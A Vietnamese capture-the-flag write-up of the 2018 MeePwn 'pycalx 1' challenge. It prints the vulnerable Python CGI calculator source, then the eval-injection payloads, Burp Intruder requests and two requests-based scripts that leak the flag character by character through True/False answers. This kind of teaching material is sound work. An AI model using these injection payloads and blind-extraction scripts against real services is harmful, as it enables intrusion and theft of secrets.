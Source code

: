 ```yaml
---
title: "Meepwn qual round - pycalx 1"
date: 2018-09-11T02:38:33+07:00
author: "Kev"
tags: ["CTF", "Python"]
comments: true
draft: false
Archives: '2018'
autoThumbnailImage: false
thumbnailImagePosition: top
thumbnailImage: ''
coverImage: ''
categories:
  - CTF
---
```


Thử thách cung cấp cho mình 1 form dữ liệu cùng với sourcecode như sau:

{{<highlight python3>}}
#!/usr/bin/env python
import cgi;
import sys
from html import escape

FLAG = open('/var/www/flag','r').read()

OK_200 = """Content-type: text/html

<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css">
<center>
<title>PyCalx</title>
<h1>PyCalx</h1>
<form>
<input class="form-control col-md-4" type=text name=value1 placeholder='Value 1 (Example: 1  abc)' autofocus/>
<input class="form-control col-md-4" type=text name=op placeholder='Operator (Example: + - * ** / // == != )' />
<input class="form-control col-md-4" type=text name=value2 placeholder='Value 2 (Example: 1  abc)' />
<input class="form-control col-md-4 btn btn-success" type=submit value=EVAL />
</form>
<a href='?source=1'>Source</a>
</center>
"""

print(OK_200)
arguments = cgi.FieldStorage()

if 'source' in arguments:
    source = arguments['source'].value
else:
    source = 0

if source == '1':
    print('<pre>'+escape(str(open(__file__,'r').read()))+'</pre>')

if 'value1' in arguments and 'value2' in arguments and 'op' in arguments:

    def get_value(val):
        val = str(val)[:64]
        if str(val).isdigit(): return int(val)
        blacklist = ['(',')','[',']','\'','"'] # I don't like tuple, list and dict.
        if val == '' or [c for c in blacklist if c in val] != []:
            print('<center>Invalid value</center>')
            sys.exit(0)
        return val

    def get_op(val):
        val = str(val)[:2]
        list_ops = ['+','-','/','*','=','!']
        if val == '' or val[0] not in list_ops:
            print('<center>Invalid op</center>')
            sys.exit(0)
        return val

    op = get_op(arguments['op'].value)
    value1 = get_value(arguments['value1'].value)
    value2 = get_value(arguments['value2'].value)

    if str(value1).isdigit() ^ str(value2).isdigit():
        print('<center>Types of the values don\'t match</center>')
        sys.exit(0)

    calc_eval = str(repr(value1)) + str(op) + str(repr(value2))

    print('<div class=container><div class=row><div class=col-md-2></div><div class="col-md-8"><pre>')
    print('>>>> print('+escape(calc_eval)+')')

    try:
        result = str(eval(calc_eval))
        if result.isdigit() or result == 'True' or result == 'False':
            print(result)
        else:
            print("Invalid") # Sorry we don't support output as a string due to security issue.
    except:
        print("Invalid")


    print('>>> </pre></div></div></div>')
{{</highlight>}}

Server nhận dữ liệu ở 3 biến: `value1`, `value2` và `op`. Cả 3 biến đều bị filter, chức năng là thực hiện phép tính nhập từ người dùng.

{{<highlight python>}}
>>>> print('aa'+'bbb')
Invalid
>>>
>>>> print(1111*222)
246642
{{</highlight>}}

Mục đích rất rõ ràng, phải tìm cách để gọi biến Flag ra, nhưng xem code ở dòng này thì chương trình đã chặn output (tức là dạng blind).

{{<highlight python>}}
if result.isdigit() or result == 'True' or result == 'False':
    print(result)
else:
    print("Invalid")
{{</highlight>}}

Khi rà soát lại code, mình phát hiện code có 1 điểm hơi lạ, ở function `get_op(val)` nhận độ dài biến val tận 2 kí tự nhưng chỉ filter đúng kí tự đầu, nên mình nghĩ ra cách để break dấu `'` chèn biến `FLAG` vào, đồng thời thực hiện so sánh để nhận giá trị `True`, `False`.

{{<highlight python>}}
>>>> print('a'+''<FLAG#')
False
{{</highlight>}}

Có vẻ đi đúng hướng, được biết trước là flag có dạng `MeePwnCTF{}` tiếp theo mình test thế này:

{{<highlight python>}}
>>>> print('L'+''>FLAG#')
False
>>>
>>>> print('M'+''>FLAG#')
False
>>>
>>>> print('N'+''>FLAG#')
True
{{</highlight>}}

Test theo bảng chữ `printable` từ đầu đến khi gặp response trả về là `True` và lấy kí tự trước đó:

{{<highlight python3>}}
# python 3.6
import requests
import string
import sys
from urllib.parse import quote_plus
url = "http://178.128.96.203/cgi-bin/server.py?value1={}&op=%2B%27&value2=%3EFLAG%23"
wordlist = list(string.printable[:-6])
wordlist.sort()
temp = "_"
flag = "MeePwnCTF{"
while True:
	for char in wordlist:
		sys.stdout.write(temp)
		sys.stdout.flush()
		r = requests.get(url.format(quote_plus(flag+char)))
		if ("True" in r.text):
			flag += temp
			break
		temp = char
		sys.stdout.write("\b")
{{</highlight>}}

Flag chạy tới đoạn `MeePwnCTF{python3.66666666666666_` thì bị lỗi. Có anh trong team bảo là do trong flag có kí tự bị chặn `[]()'"` nên không chạy tiếp được nữa. Lúc này mình tưởng ra flag rồi, ai ngờ …..đành tính cách khác. Suy nghĩ hơi lâu không tìm ra được cách nào để gửi lên kí tự bị chặn đấy nhưng mình có kế tạm thời là đoán tất cả những kí tự không bị chặn nhưng chưa tìm ra, ví dụ `MeePwnCTF{python3.66666666666666_*[][][][][]*xxxxxxxxx}` mình có thể tìm được kí tự xxxx đó mà không cần biết kí tự đặc biệt. Payload mình build như sau:

{{<highlight python>}}
>>>> print('Mee'+'' in FLAG#')
True
>>>
>>>> print('}'+'' in FLAG#')
True
{{</highlight>}}

Sourcecode trước không dùng được nữa nên mình dùng burp suite intruder thay thế (mất thời gian quá {{<emoji ah>}})

```
GET /cgi-bin/server.py?value1=§_§&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm tất cả kí tự có trong FLAG
```

{{<figure src="/images/uploads/meepwn.png" width="100%" title="Burpsuite intruder">}}

Tiếp đó, mình sẽ đoán cụm từ trong flag

```
GET /cgi-bin/server.py?value1=§_§a&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm kí tự đứng trước a
GET /cgi-bin/server.py?value1=a§_§&op=%2B%27&value2=%20in%20FLAG%23 HTTP/1.1  => Tìm kí tự đứng sau a
```

Cứ như thế đến hết danh sách kí tự tìm được thì mình tìm được 80% flag như là `MeePwnCTF{python3.66666666666666_*you_passed_this?*}` dấu * là kí tự đặc biệt. Sau khi làm xong bước này thì anh trong team quăng cho payload:

```
http://178.128.96.203/cgi-bin/server.py
?value1=M
&op=%2B%27
&value2= %2b source < FLAG%23
&source=e
>>>> print('M'+'' + source < FLAG#')
True
```

Vậy là xong, biến source không bị filter nên thoải mái mà inject. Payload cuối cùng là thế này:

{{<highlight python3>}}
# Python 3.6
import requests
import string
import sys
from urllib.parse import quote_plus
# url = "http://178.128.96.203/cgi-bin/server.py?value1={}&op=%2B%27&value2=%3EFLAG%23"
url = "http://178.128.96.203/cgi-bin/server.py?value1=MeePwnCTF%7bpython3.66666666666666_&op=%2B%27&value2=%20%2b%20source%20%3E%20FLAG%23&source={}"
wordlist = list(string.printable[:-6])
wordlist.sort()
temp = "_"
flag = ""
sys.stdout.write("MeePwnCTF{python3.66666666666666_")
while True:
	for char in wordlist:
		sys.stdout.write(temp)
		sys.stdout.flush()
		r = requests.get(url.format(quote_plus(flag+char)))
		if ("True" in r.text):
			flag += temp
			break
		temp = char
		sys.stdout.write("\b")
{{</highlight>}}


FLAG: `MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])}`